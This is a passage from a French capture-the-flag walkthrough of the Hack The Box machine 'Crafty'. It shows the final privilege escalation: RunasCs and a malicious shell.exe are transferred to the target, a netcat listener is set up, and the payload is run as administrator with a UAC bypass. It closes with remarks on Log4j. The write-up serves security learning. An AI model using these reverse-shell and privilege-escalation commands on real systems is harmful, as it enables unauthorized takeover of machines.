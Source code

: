 Les fichiers `shell.exe` et `RunasCs.exe` sont transférés à la cible en utilisant la même méthode que celle employée pour `nc.exe`.

![malicious file and runascs.exe on target](/images/HTB-Crafty/files-on-target.png)

Nous mettons en place un autre listener sur le port sélectionné pour le payload.

```
rlwrap -cAr nc -lvp <PORT_NUMBER>
```

Nous utilisons ensuite `runasCs` en conjonction avec le fichier malveillant.

```
.\runasCs.exe administrator s67u84zKq8IXw shell.exe --bypass-uac
```

Et finalement nous obtenons une connexion sur le listener, en tant que `administrator`.

![admin shell](/images/HTB-Crafty/admin-shell.png)

Dans `C:\Users\Administrator\Desktop` nous trouvons `root.txt`.

![root flag](/images/HTB-Crafty/root-flag.png)

## Mots de Fin

Log4j est considéré comme l'une des vulnérabilités les plus critiques, car elle permet aux attaquants de facilement prendre le contrôle de systèmes vulnérables. Il est très important d'être capable de reconnaître et de tester les vulnérabilités les plus populaires. Vous trouverez ci-dessous une vidéo et un article détaillant Log4j.

* [Log4J | Log4shell : c'est quoi cette vulnérabilité en deux mots ? | Vulnérabilité Log4J](https://www.youtube.com/watch?v=U6V5ok-O4ec&ab_channel=Techno)
* [Qu’est-ce que la vulnérabilité Apache Log4J (Log4Shell) ?](https://www.trendmicro.com/fr_fr/what-is/apache-log4j-vulnerability.html)
